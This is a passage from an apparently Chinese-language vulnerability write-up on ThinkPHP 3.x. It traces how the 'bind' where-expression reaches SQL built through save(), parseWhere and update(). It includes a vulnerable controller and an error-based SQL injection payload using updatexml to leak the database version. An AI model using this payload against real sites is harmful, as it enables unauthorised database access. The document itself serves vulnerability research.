 ![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203191546247.png)

最终得到的`wherestr`为

```
`username` = :asdf
```

由于`=:`的存在,这玩意用来引用绑定变量,我们要消除`:`对于sql语句的影响

1. 使用`save`方法

thinkphp将update操作封装在`save`方法中

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $User = M("user");
        $name = I('GET.name');
        $data['password'] = '123456';
        $res = $User->where(array('username'=>$name))->save($data);
    }
}
```

`name[]=bind&name[]=0 and updatexml(1,concat(0x7e,(select @@version),0x7e),1)`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203191638475.png)

`save`方法同样会调用`parseWhere`并进入到`parseWhereItem`中

```php
#ThinkPHP/Library/Think/Model.class.php
public function save($data='',$options=array()) {
    ...
    if(is_array($options['where']) && isset($options['where'][$pk])){
        $pkValue    =   $options['where'][$pk];
    }
    if(false === $this->_before_update($data,$options)) {
        return false;
    }
    $result     =   $this->db->update($data,$options);
    if(false !== $result && is_numeric($result)) {
        if(isset($pkValue)) $data[$pk]   =  $pkValue;
        $this->_after_update($data,$options);
    }
    return $result;
}
#ThinkPHP/Library/Think/Db/Driver.class.php
public function update($data,$options) {
    $this->model  =   $options['model'];
    $this->parseBind(!empty($options['bind'])?$options['bind']:array());
    $table  =   $this->parseTable($options['table']);
    $sql   = 'UPDATE ' . $table . $this->parseSet($data); //关键点1
    if(strpos($table,',')){// 多表更新支持JOIN操作
        $sql .= $this->parseJoin(!empty($options['join'])?$options['join']:'');
    }
    $sql .= $this->parseWhere(!empty($options['where'])?$options['where']:'');//关键点2
    if(!strpos($table,',')){
        //  单表更新支持order和lmit
        $sql .= $this->parseOrder(!empty($options['order'])?$options['order']:'').$this->parseLimit(!empty($options['limit'])?$options['limit']:'');
    }
    $sql .= $this->parseComment(!empty($options['comment'])?$options['comment']:'');
    return $this->execute($sql,!empty($options['fetch_sql']) ? true : false);//关键点3
```